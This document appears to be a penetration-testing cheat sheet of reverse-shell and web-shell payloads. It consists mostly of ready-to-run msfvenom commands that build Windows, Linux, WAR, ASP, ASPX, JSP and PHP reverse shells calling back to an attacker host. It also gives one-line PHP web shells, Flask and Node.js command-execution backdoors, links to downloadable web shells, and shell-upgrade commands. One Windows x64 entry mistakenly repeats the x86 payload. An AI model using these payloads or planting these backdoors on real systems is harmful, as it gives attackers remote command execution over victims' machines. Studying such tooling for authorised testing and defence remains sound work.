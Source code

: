 
# Shell and Some Payloads

## Payload Structure - msfvenom

- > A staged payload is usually shipped in two parts. The first part contains a small primary payload that will establish a connection, transferring a larger secondary payload with the rest of the shellcode.

e.g.

```
windows/shell_reverse_tcp (stageless)
windows/shell/reverse_tcp (staged)
linux/shell_reverse_tcp (stageless)
linux/shell/reverse_tcp (staged)

```

## Non-Meterpreter Binaries

### Windows

### .exe x86 staged - msfvenom (Non-Meterpreter)

```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

```

### .exe x64 staged - msfvenom (Non-Meterpreter)

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

```

### .exe x86 stageless - msfvenom (Non-Meterpreter)

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x86.exe

```

### .exe x64 stageless - msfvenom (Non-Meterpreter)

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell-x64.exe

```

### Linux

### .elf x86 staged - msfvenom (Non-Meterpreter)

```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

```

### .elf x64 staged - msfvenom (Non-Meterpreter)

```
msfvenom -p linux/x64/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf

```

### .elf x86 stageless - msfvenom (Non-Meterpreter)

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

```

### .elf x64 stageless - msfvenom (Non-Meterpreter)

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf

```

## Web Payloads

### Java WAR - msfvenom (Non-Meterpreter)

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war

```

### ASP - msfvenom (Non-Meterpreter)

```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp

```

### ASPX - msfvenom (Non-Meterpreter)

```
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<LPORT> -f aspx > shell.aspx

```

### JSP - msfvenom (Non-Meterpreter)

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp

```

### WAR - msfvenom (Non-Meterpreter)

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp

```

### PHP - msfvenom (Non-Meterpreter) - Reverse Shell

```
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php

```

or

https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

[https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse Shell.php](https://raw.githubusercontent.com/Dhayalanb/windows-php-reverse-shell/master/Reverse%20Shell.php)

## Web Shells

### PHP

```
<?php echo shell_exec($_GET['cmd']);?>
<?php system($_GET['cmd']);?>
<?php echo exec($_GET['cmd']);?>

```

### JSP

https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmdjsp.jsp

or in kali

```
locate cmdjsp.jsp

```

### ASP

https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd-asp-5.1.asp

https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.asp

or in kali

```
locate cmd-asp-5.1.asp
locate cmdasp.asp

```

### ASPX

https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmdasp.aspx

or in kali

```
locate cmdasp.aspx

```

### Webshell Infecting [views.py](http://views.py/) - Python (Flask)

```
import os
from flask import Flask,request,os

app = Flask(__name__)

@app.route('/okay')
def cmd():
    return os.system(request.args.get('c'))

if __name__ == "__main__":
	app.run()

```

https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/views.py

### nodejs

```
const express = require('express')
const app = express();

app.listen(3000, () =>
	console.log('...')
);
function Exec(command){
	const { execSync } = require("child_process");
	const stdout = execSync(command);
	return "Result: "+stdout
}
app.get('/okay/:command', (req, res) =>
res.send(Exec(req.params.command))
);

```

https://raw.githubusercontent.com/rodolfomarianocy/Tricks-Web-Penetration-Tester/main/codes/webshells/views.js

### Perl

- > Find and edit

```
locate perl-reverse-shell.pl

```

## Spawn tty via Python

```
python -c 'import pty;pty.spawn("/bin/bash")';

```

## Spawn an upgraded shell

```
export TERM=xterm && /usr/bin/script -qc /bin/bash /dev/null

```

`ctrl + z`

```
stty raw -echo; fg

```

### tools to make life easier

- > revshell generator

https://www.revshells.com/

- > CyberChef

https://gchq.github.io/CyberChef/

- > urlencoder

https://www.urlencoder.org/

- > octal

http://www.unit-conversion.info/texttools/octal/

- > hex

http://www.unit-conversion.info/texttools/octal/

- > IP converter

https://www.silisoftware.com/tools/ipconverter.php
